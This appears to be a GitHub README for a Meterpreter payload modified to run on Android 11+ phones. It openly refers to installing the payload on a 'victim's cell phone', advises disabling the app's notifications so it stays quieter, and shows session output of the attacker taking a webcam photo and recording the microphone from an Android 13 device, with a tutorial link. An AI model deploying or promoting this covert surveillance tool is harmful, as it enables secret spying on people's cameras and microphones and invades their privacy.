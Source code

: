 # Meterpreter-Android
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```
Tuturial:
https://youtu.be/WDRiazpjrwk?si=kY3CVy4QxuU-zTD4

